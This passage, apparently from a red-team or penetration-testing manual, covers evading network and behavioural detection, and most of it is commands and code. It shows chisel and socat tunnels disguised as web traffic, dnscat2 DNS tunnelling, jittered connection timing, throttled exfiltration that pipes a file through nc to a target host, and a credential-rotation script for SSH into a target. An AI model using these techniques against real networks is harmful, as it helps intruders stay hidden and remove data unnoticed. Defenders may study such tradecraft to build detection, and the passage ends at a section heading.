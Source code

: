 #### Protocol Mimicry Techniques:

```bash
# HTTP traffic camouflage
chisel server --port 80 --auth "user:pass"
chisel client --header "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)" server:80 R:socks

# HTTPS certificate spoofing
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
socat OPENSSL-LISTEN:443,cert=cert.pem,fork TCP:127.0.0.1:1234

# DNS query tunneling
dnscat2 --secret=secretkey subdomain.legitimate-domain.com
```

#### Timing Randomization:

```python
import random
import time

def jittered_connection(min_delay=1, max_delay=30):
    delay = random.uniform(min_delay, max_delay)
    time.sleep(delay)
    # Establish connection
```

#### Volume Control Implementation:

```bash
# Bandwidth limiting with tc (traffic control)
tc qdisc add dev eth0 root handle 1: htb default 12
tc class add dev eth0 parent 1: classid 1:1 htb rate 100mbit
tc class add dev eth0 parent 1:1 classid 1:12 htb rate 1mbit ceil 2mbit

# Application-level rate limiting
pv -L 1024 < largefile.dat | nc target_host 443
```

### 14.2 Behavioral Analysis Evasion

#### Credential Management:

```bash
# Credential rotation script
#!/bin/bash
CREDS=("user1:pass1" "user2:pass2" "user3:pass3")
CURRENT_CRED=${CREDS[$RANDOM % ${#CREDS[@]}]}

# Use credential for connection
ssh -o PasswordAuthentication=yes ${CURRENT_CRED%:*}@target_host
```

#### Session Timing Patterns:
